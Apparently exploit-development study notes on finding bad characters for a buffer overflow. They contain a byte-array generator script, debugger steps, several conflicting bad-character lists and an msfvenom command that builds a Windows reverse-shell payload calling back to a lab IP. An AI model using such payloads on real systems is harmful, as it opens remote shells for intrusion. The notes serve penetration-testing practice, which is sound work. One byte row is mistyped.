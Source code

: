 # Checking for Bad Characters

```
#!/usr/bin/python
badchars = b""
badchars+=b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
badchars+=b"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
badchars+=b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
badchars+=b"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
badchars+=b"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
badchars+=b"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
badchars+=b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
badchars+=b"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
badchars+=b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
badchars+=b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
badchars+=b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa8\xa9\xa0\xaa\xab\xac\xad\xae\xaf"
badchars+=b"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
badchars+=b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
badchars+=b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
badchars+=b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
badchars+=b"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

f = open("/var/www/html/exploit.txt","wb")
f.write(badchars)
f.close()
```

Download exploit.txt, put it in the same directory as the binary.

Then, open immunity debugger and open the file. Set a breakpoint at CALL EBX, and then press F9 to run. It will stop once it hits the CALL EBX, and then we can investigate the Hex Dump once we click EBX and follow in dump. Now look for bad characters.

Bad characters:

x00, x0a, x1a, x39, x85, xeb

x00 x0a x0f x1a x5f xcd

x00 x0a x1a x3B xCF

x00 x0a x0d x20 x75 x9e xbc&#x20;



BAD\_CHARS = x00 x0a x0d x20 x37 xc2

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.45.232 LPORT=1234 -f py -v shellcode -b "\x00\x0a\x1a\x3b\xcf"
```
